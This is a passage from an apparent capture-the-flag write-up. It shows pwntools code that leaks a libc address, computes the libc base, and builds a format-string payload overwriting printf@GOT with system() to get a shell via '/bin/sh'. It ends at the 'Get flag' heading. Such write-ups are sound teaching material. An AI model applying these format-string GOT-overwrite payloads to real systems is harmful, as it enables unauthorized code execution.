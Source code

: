 Check that in GDB and we know it's correct:

![check_libc_start_main_ret.png](images/check_libc_start_main_ret.png)

So take this address and calculate libc base address with the following code:

```
__libc_start_main_ret = int(p.recvline().split(b'0x')[-1], 16)
log.success("__Libc_start_main_ret: " + hex(__libc_start_main_ret))
libc.address = __libc_start_main_ret - libc.sym['__libc_start_main_ret']
log.success("Libc base: " + hex(libc.address))
print(hex(exe.got['fflush']))
print(hex(exe.sym['lin'] + 116))
```

Now, let's move on the last stage: Overwrite printf@got to system()!

### Stage 3: Overwrite printf@got to system()

From this stage, we will do the same as we did in stage 1 so I just write code here:

```
system_addr_hex = hex(libc.sym['system'])
part1 = int(system_addr_hex[-4:], 16)
part2 = int(system_addr_hex[-8:-4], 16)
if part2<part1:
    part2 += 0x10000

payload = p32(exe.got['printf'])
payload += b'PPPP'
payload += p32(exe.got['printf']+2)
payload += b'%c'*10
payload += '%{}c%hn'.format(part1-22).encode()
payload += '%{}c%hn'.format(part2-part1).encode()
# payload = b'AAAA'
# payload += b'%p'*0x20
p.sendline(payload)
data = p.recvline()
```

After we write, just input string `/bin/sh` and it will execute system("/bin/sh").

Full code: [solve.py](solve.py)

# 4. Get flag
